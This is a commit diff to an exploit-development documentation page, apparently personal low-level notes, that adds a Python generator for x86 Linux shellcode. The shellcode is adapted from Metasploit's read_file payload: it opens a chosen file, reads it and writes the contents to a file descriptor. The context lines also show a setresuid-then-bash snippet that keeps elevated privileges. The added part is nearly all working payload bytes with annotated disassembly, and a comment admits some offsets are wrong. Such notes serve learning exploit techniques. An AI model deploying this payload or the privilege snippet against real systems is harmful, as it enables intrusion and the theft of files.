

Before and after one commit to gipi/low-level, an MkDocs documentation site: the page built from docs/shellcode.md, in a window 1280 px wide and 1400 px high, scrolled down 359 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; old or Windows-style settings are respelled for this version of MkDocs.

Commit message:
Add shellcode to open a file and write to file descriptor.

````diff
--- a/docs/shellcode.md
+++ b/docs/shellcode.md
@@ -14,3 +14,100 @@ import os
 os.setresuid(os.geteuid(), os.geteuid(), os.geteuid())
 os.execlp("bash", "bash")
 ```
+
+```python
+# linux/x86/read_file - 84 bytes
+# http://www.metasploit.com
+# VERBOSE=false, PrependFork=false, PrependSetresuid=false,
+# PrependSetreuid=false, PrependSetuid=false,
+# PrependSetresgid=false, PrependSetregid=false,
+# PrependSetgid=false, PrependChrootBreak=false,
+#
+# Modified shell code that reads a file and write its contents in the file descriptor
+# passed as first argument into the stack.
+import sys
+
+if len(sys.argv) < 2:
+    sys.stderr.write('usage: %s <PATH>' % sys.argv[0])
+    sys.exit(1)
+
+path = sys.argv[1]
+
+def put_piece_into_stack(piece):
+    length = len(piece)
+    assert length <= 4
+
+    null_byte_needed = length < 4
+
+    if null_byte_needed:
+        piece = 'x'*(4 - length) + piece
+
+    return  null_byte_needed, ('\xb8%s' % piece) + \
+            ('\xc1\xe8%c' % ((4 - length)*8) if null_byte_needed else '') + \
+            '\x50'
+
+def build_string_into_stack(path_string):
+    '''Returns the instructions to put into the stack
+    the path needed
+
+    0x00000002   5               b87878786f  mov eax, 0x6f787878
+    0x00000007   3                   c1e818  shr eax, 0x18
+    0x0000000a   1                       50  push eax
+    '''
+
+    path_length = len(path_string)
+    # split the path so that each piece fit into a 32 bits register
+    path_componentes = [path_string[x:x + 4] for x in range(0, path_length, 4)]
+    path_componentes.reverse()
+
+    buf = ''
+
+    for path_component in path_componentes:
+        null_byte_needed, opcode = put_piece_into_stack(path_component)
+        buf += opcode
+
+    return buf
+
+
+buf  = ""                             # NOTE: some offset are wrong since we have modified the original shellcode
+buf += "\x89\xe5"                     # 0x00000000   2                     89e5  mov ebp, esp
+
+buf += build_string_into_stack(path)
+
+buf += "\x31\xc0"                     # 0x00000017   2                     31c0  xor eax, eax
+buf += "\x40"                         # 0x00000019   1                       40  inc eax
+buf += "\x40"                         # 0x0000001a   1                       40  inc eax
+buf += "\x40"                         # 0x0000001b   1                       40  inc eax
+buf += "\x40"                         # 0x0000001c   1                       40  inc eax
+buf += "\x40"                         # 0x0000001d   1                       40  inc eax
+buf += "\x89\xe3"                     # 0x0000001e   2                     89e3  mov ebx, esp
+buf += "\x31\xc9"                     # 0x00000020   2                     31c9  xor ecx, ecx
+buf += "\xcd\x80"                     # 0x00000022   2                     cd80  int 0x80             sys_open()
+buf += "\x89\xc3"                     # 0x00000024   2                     89c3  mov ebx, eax
+buf += "\xb8\x40\x30\x20\x10"         # 0x00000026   5               b840302010  mov eax, 0x10203040
+buf += "\xc1\xe8\x10"                 # 0x0000002b   3                   c1e810  shr eax, 0x10
+buf += "\x50"                         # 0x0000002e   1                       50  push eax
+buf += "\x29\xc4"                     # 0x0000002f   2                     29c4  sub esp, eax
+buf += "\x31\xc0"                     # 0x00000031   2                     31c0  xor eax, eax
+buf += "\x40"                         # 0x00000033   1                       40  inc eax
+buf += "\x40"                         # 0x00000034   1                       40  inc eax
+buf += "\x40"                         # 0x00000035   1                       40  inc eax
+buf += "\x89\xe7"                     # 0x00000036   2                     89e7  mov edi, esp
+buf += "\x89\xf9"                     # 0x00000038   2                     89f9  mov ecx, edi
+buf += "\x8b\x55\xf0"                 # 0x0000003a   3                   8b55f0  mov edx, [ebp-0x10]
+buf += "\xcd\x80"                     # 0x0000003d   2                     cd80  int 0x80             sys_read()
+buf += "\x89\xc2"                     # 0x0000003f   2                     89c2  mov edx, eax
+buf += "\x31\xc0"                     # 0x00000041   2                     31c0  xor eax, eax
+buf += "\x40"                         # 0x00000043   1                       40  inc eax
+buf += "\x40"                         # 0x00000044   1                       40  inc eax
+buf += "\x40"                         # 0x00000045   1                       40  inc eax
+buf += "\x40"                         # 0x00000046   1                       40  inc eax
+buf += "\x8b\x5d\x04"                 # 0x00000047   3                   8b5d04  mov ebx, [ebp+0x4]
+buf += "\xcd\x80"                     # 0x0000004a   2                     cd80  int 0x80             sys_write()
+buf += "\x31\xc0"                     # 0x0000004c   2                     31c0  xor eax, eax
+buf += "\x40"                         # 0x0000004e   1                       40  inc eax
+buf += "\x31\xdb"                     # 0x0000004f   2                     31db  xor ebx, ebx
+buf += "\xcd\x80"                     # 0x00000051   2                     cd80  int 0x80             sys_exit()
+
+sys.stdout.write(buf)
+```
````
